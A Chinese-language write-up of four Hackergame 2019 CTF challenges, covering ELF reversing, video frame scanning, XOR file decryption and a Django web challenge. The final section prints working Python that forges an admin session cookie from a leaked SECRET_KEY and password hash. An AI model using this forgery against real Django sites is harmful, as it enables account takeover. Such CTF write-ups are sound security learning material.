

# Hackergame 2019 Write-Ups

by 三日月綾香 \(GitHub [sgalal](https://github.com/sgalal)\)

rank \#66

只收录了四个题目，其他题目的是解法与官方题解相同，或者没有解出来的。

## 小巧玲珑的 ELF

本题为 C 语言逆向题。用 Cutter 打开，可以看到主程序有两个循环：



```c
for (int i = 0; i <= 0x2d; i++) {
    a[i] = (char)(i * 2 + a[i]);
    a[i] = (char)(i ^ arr[i]);
    a[i] = (char)(arr[i] - i);
}
for (int j = 0; j <= 0x2d; j++) {
    if (a[j] != b[j]) {
        exit(0);
    }
}
```

其中用数组 `b` 是用户输入的数据，数组 `a` 的内容如下：

```python
[0x66,0x6e,0x65,0x6b,0x83,0x4e,0x6d,0x74,0x85,0x7a,0x6f,0x57,0x91,0x73,0x90,0x4f,0x8d,0x7f,0x63,0x36,0x6c,0x6e,0x87,0x69,0xa3,0x6f,0x58,0x73,0x66,0x56,0x93,0x9f,0x69,0x70,0x38,0x76,0x71,0x78,0x6f,0x63,0xc4,0x82,0x84,0xbe,0xbb,0xcd]
```

于是使用 Python 恢复内容：

```python
''.join(chr(((n + i) ^ i) - i * 2) for i, n in enumerate(a))
```

## 三教奇妙夜

本题为视频分析题，视频内容为 3C102 的场景，根据题目描述，偶尔会闪过 **黑底白字** 的内容。

因此可以遍历每一帧，检查第一个像素是否是纯黑或者纯白。

```python
import cv2
import numpy as np

cap = cv2.VideoCapture('output.mp4')

frame_width = int(cap.get(3))
frame_height = int(cap.get(4))

out = cv2.VideoWriter('outpy.avi', cv2.VideoWriter_fourcc('M','J','P','G'), 10, (frame_width, frame_height))

i = 0
lastframe = None
total_capture_count = 10

while True:
	success, frame = cap.read()
	if not success:
		break
	if frame[0][0][2] == 0 or frame[0][0][2] == 255:
		if not np.array_equal(lastframe, frame):
			lastframe = frame
			out.write(frame)

			if i == total_capture_count:
				break
			else:
				i += 1

cap.release()
out.release()
```

P\.S\. 实际上代码中 `frame[0][0][2]` 只检查了第一个像素的其中一个分量；`total_capture_count` 的限制其实是不需要的。

## 小 U 的加密

根据题目描述，本题中的文件经过加密。

使用 `hexdump` 命令发现有很多 0x39，判断 0x39 对应 0x00。

将文件全部与 0x39 按位异或输出为 `out`，然后使用 `file out` 命令，得到：

```raw
out: Standard MIDI data (format 0) using 1 track at 1/480
```

将文件重命名为 `out.mid`，使用 `ffplay out.mid` 命令播放，是一段杂乱无章的音乐。于是使用 LMMS 打开：


## 被泄漏的姜戈

本题是 Web 攻击题。

首先根据题目描述很容易找到被泄漏的源代码 [openlug/django-common](https://github.com/openlug/django-common)。

被泄漏的关键内容为：

* `/db.sqlite3` 中被加密过的密码（`password` 字段）
* `/openlug/settings.py` 中的 `SECRET_KEY`

其中 `settings.py` [第 22 行](https://github.com/openlug/django-common/blob/master/openlug/settings.py#L22-L23) 还有一句提示:

```raw
SECURITY WARNING: keep the secret key used in production non-secret!
```

通过查找 [资料](https://grosquildu.github.io/pentests/web/)，参考 django secret_key when leaked 一节，得到管理员账户的 cookie：

```python
import django
from django.core import signing
SECRET_KEY = 'd7um#o19q+v24!vkgzrxme41wz5#_h0#f_6u62fx0m@k&uwe39'
password_admin = 'pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE='
cookie = signing.dumps({'_auth_user_id': '1', '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend', '_auth_user_hash': django.utils.crypto.salted_hmac('django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash', password_admin, SECRET_KEY).hexdigest()}, SECRET_KEY, salt='django.contrib.sessions.backends.signed_cookies', compress=True)
print(cookie)
```

用这个 cookie 登录即可。哔哩哔哩 (゜-゜)つロ 干杯 ！
